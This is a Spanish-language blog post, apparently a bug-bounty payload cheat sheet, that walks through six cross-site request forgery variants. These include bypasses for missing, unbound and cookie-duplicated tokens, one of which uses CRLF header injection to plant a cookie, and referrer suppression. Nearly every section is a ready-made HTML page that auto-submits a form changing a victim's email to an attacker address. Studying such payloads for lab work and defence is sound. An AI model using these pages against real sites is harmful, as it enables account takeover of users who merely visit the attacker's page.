 ```yaml
---
layout: post
title:  "CSRF Attacks"
author: erik
categories: [ Web ]
image: https://user-images.githubusercontent.com/47476901/159375082-f0ca6711-c380-41c8-b82d-9e1515ff729e.png
beforetoc: ""
toc: false
tags: [ Web, Bug Bounty, Payloads ]
---
```

Ataques CSRF y distintas formas de implementarlo.

# Table of Contents
1. [Vulnerabilidad CSRF sin defensas](#CSRFsinDefensas)
2. [Validación token depende método solicitud](#CSRFenGET)
3. [Validación token depende presencia token](#CSRFenPresencia)
4. [El token CSRF no está vinculado a la sesión del usuario](#CSRFnoVinculado)<br>
   4.1. [Mismo token entre usuarios](#MismoTokenUsuarios)<br>
   4.2. [Token no vinculado a la sesion](#SesionTokenNoVinculado)
6. [El token se duplica en la cookie](#TokenDuplicaCooki)
5. [CSRF sin Referrer](#CSRFsinReferrere)


---

### 1- Vulnerabilidad CSRF sin defensas <a name="CSRFsinDefensas"></a>
**CSRF basico correo**<br>
Hace una peticion a la pagina en la ruta donde se cambia el correo y con el javascript confirma la peticion, lo cual se cambiará el correo con solo visitar la pagina.

Codigo de https://atacante.com/malicioso.html

```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@evil-user.net" />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
---
### 2- CSRF donde la validación del token depende del método de solicitud <a name="CSRFenGET"></a>
Dependiendo del metodo de peticion, se puede hacer con GET
```html
<img src="https://vulnerable-web.com/my-account/change-email?email=pwned@evil-user.net"/>
```
---
### 3- CSRF donde la validación del token depende de la presencia del token <a name="CSRFenPresencia"></a>
No verifica el token CSRF, se eliminia y se bypassea

```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@evil-user.net" />
             <input type="hidden"  value="csrf" />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
---
### 4- El token CSRF no está vinculado a la sesión del usuario <a name="CSRFnoVinculado"></a>
**4.1- Usar el mismo token en ambos usuarios**<br>
Podemos usar el mismo Token CSRF en un usuario que en otro al no estar vinculado a la sesión del usuario <a name="MismoTokenUsuarios"></a><br>
Mi token: U6vJiRteqjSX46XRk57k6saqolEcdDvQ sirve para otros usuario tambien.
```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@evil-user.net" />
                        <input type="hidden" name="csrf" value="<csrf>"  />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
**4.2- El token CSRF no esta vinvulado a la sesion.** <a name="SesionTokenNoVinculado"></a><br>
Por lo que se podria usar el mismo csrf token y la misma csrf key en una cuenta que en otra para cambiar el correo  
```html
<html>
  <body>
    <form action="https://vulnerable-web.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwn&#64;ed&#46;com" /> 
      <input type="hidden" name="csrf" value="<csrf>" />
      <input type="submit" value="Submit request" />    </form>
  <img src="https://vulnerable-web.com//?search=test%0d%0aSet-Cookie:%20csrfKey=<key>" onerror="document.forms[0].submit()">

  </body>
</html>
```

---

### 5- El token CSRF simplemente se duplica en una cookie <a name="TokenDuplicaCookie"></a>
El token se valida en la cookie, podemos hacer que el usuario se cree su propio token csrf el cual indicamos nosotros.

![cookieToken](https://user-images.githubusercontent.com/47476901/159374578-694ad92d-dc4c-43c5-b169-a32c28eebf3f.png)

Como se validaba el token en la cookie podemos mandar la peticion para el cambio de correo.

```html
<html>
    <body>
        <form action="https://vulnerable-web.com/email/change" method="POST" >
            <input type="hidden" name="email" value="pwned@evil-user.net">
            <input type="hidden" name="csrf" value="tokenfalsojeje">
        </form>
		
        <img src="https://vulnerable-web.com/?search=hat%0d%0aSet-Cookie:%20csrf=tokenfalsojeje" onerror="document.forms[0].submit()">
    </body>
</html>
```


---
### 6- CSRF sin Referrer <a name="CSRFsinReferrer"></a>
Indicamos que no exista el Referer en el exploit del CSRF usando el tag de meta.

```html
<html>
  <head> 
     <meta name="referrer" content="no-referrer">
  </head> 
<body> 
   <form action="https://vulnerable-web.com/email/change" method="POST"> 
   <input type="hidden" name="email" value="pwned@evil-user.net" />
   <input type="submit"/>
</form> 
   <script>document.forms[0].submit();</script>
</body>
</html>
```

